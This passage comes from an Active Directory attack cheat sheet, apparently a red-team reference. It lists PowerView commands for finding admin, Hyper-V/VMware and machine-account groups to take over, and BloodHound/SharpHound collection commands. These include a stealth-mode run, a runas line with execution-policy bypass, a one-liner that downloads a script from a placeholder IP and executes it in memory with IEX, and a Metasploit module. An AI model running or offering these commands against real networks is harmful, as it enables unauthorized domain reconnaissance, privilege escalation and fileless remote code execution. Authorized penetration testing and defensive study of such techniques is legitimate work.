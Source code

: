 #### PowerView

```bash
Get-NetGPOGroup
Get-NetGroupMember -GroupName "Local Admin"
```

### Virtual Admins

Virtual Admins usually have full access to the virtualization platform identifying and owning these accounts can often give total control over to an attacker.

#### PowerView

```bash
Get-NetGroup "*Hyper*" | Get-NetGroupMember
Get-NetGroup "*VMWare*" | Get-NetGroupMember
```

### Systems with Admin Rights

Finding computer accounts with a `$` sign at the end of the hostname in an admin group we can then compromise the system and obtain SYSTEM privileges. The SYSTEM account on the compromised computer would then have AD admin privileges.

#### PowerView

```bash
Get-NetGroup "*admins*" | Get-NetGroupMember -Recurse |?{$_.MemberName -Like '*$'}
```

## Tools

### Bloodhound

#### Ingestors

```bash
# Standard local execution
./SharpHound.exe --CollectionMethods All,GPOLocalGroup
Invoke-BloodHound -CollectionMethod All,GPOLocalGroup
Invoke-BloodHound -CollectionMethod All -CompressData -RemoveCSV
Invoke-BloodHound -CollectionMethod LoggedOn

# Specify different domain and run in stealth mode and collect only RDP data
Invoke-BloodHound --d <Domain> --Stealth --CollectionMethod RDP

# Run in context of different user
runas.exe /netonly /user:domain\user 'powershell.exe -nop -exec bypass'

# Download and execute in memory
powershell.exe -exec Bypass -C "IEX(New-Object Net.Webclient).DownloadString('http://<IP>:/SharpHound.ps1');Invoke-BloodHound"

# Metasploit
use post/windows/gather/bloodhound     

# Nextscan also has bloodhound injectors
```
